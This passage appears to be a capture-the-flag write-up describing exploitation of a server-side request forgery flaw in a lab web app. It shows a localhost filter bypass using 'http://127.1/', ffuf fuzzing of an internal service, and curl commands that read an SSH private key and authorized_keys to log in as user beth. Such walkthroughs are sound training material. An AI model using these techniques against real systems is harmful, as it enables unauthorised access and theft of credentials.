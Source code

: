 Creating the `test` file and making the request manually reveals that the server not only makes the request but also returns the response.

![Web 8080 View Image Www](web_8080_view_image_www.webp){: width="1100" height="500" }

### Enumerating Internal Services

Now that we have an `SSRF` vulnerability, we can use it to enumerate the internal services.

However, when attempting this, we see that using `127.0.0.1` or `localhost` in our URL results in a `403 FORBIDDEN` response. This indicates that there is likely a filter in place.

![Web 8080 View Image Www Localhost](web_8080_view_image_www_localhost.webp){: width="1100" height="500" }

Looking for other payloads to access `localhost`, we can find many options [here](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/url-format-bypass#localhost). Using `http://127.1/` not only allows us to bypass the filter, but we also discover an internal web application running on `127.0.0.1:80`.

![Web 8080 View Image Www Bypass](web_8080_view_image_www_bypass.webp){: width="1100" height="500" }

Fuzzing this internal web application for directories, we discover the `.ssh` directory.

```console
$ ffuf -u 'http://10.10.59.255:8080/view_image' -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -H 'Content-Type: application/x-www-form-urlencoded' -X POST -d 'www=http://127.1/FUZZ' -mc all -t 50 -ic -fs 469
...
.ssh                    [Status: 200, Size: 399, Words: 18, Lines: 17, Duration: 142ms]
```
{: .wrap }

Checking `http://127.1/.ssh`, we see that indexing is enabled and there are two files.

![Web 8080 View Image Www Ssh](web_8080_view_image_www_ssh.webp){: width="1100" height="500" }

Reading `http://127.1/.ssh/id_rsa`, we obtain a private key.

```console
$ curl -s 'http://10.10.59.255:8080/view_image' -d 'www=http://127.1/.ssh/id_rsa' -o id_rsa
$ chmod 600 id_rsa
```
{: .wrap }

Reading `http://127.1/.ssh/authorized_keys`, we find a username: `beth`.

```console
$ curl -s 'http://10.10.59.255:8080/view_image' -d 'www=http://127.1/.ssh/authorized_keys'
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPXIWuD0UBkAjhHftpBaf949OT8wp/PYpD44TjkoSuC4vfhiPkpzVUmMNNM1GZz681FmJ4LwTB6VaCnBwoAJrvQp7ar/vNEtYeHbc5TFaJIAA5FN5rWzl66zeCFNaNx841E4CQSDs7dew3CCn3dRQHzBtT4AOlmcUs9QMSsUqhKn53EbivHCqkCnqZqqwTh0hkd0Cr5i3r/Yc4REqsVaI41Cl3pkDxrfbmhZdjxRpES8pO5dyOUvnq3iJZDOxFBsG8H4RODaZrTW78eZbcz1LKug/KlwQ6q8+e4+mpcdm7sHAAszk0eFcI2a37QQ4Fgq96OwMDo15l8mDDrk1Ur7aF beth@london
```
{: .wrap }

Using the private key, we are able to SSH as the `beth` user.
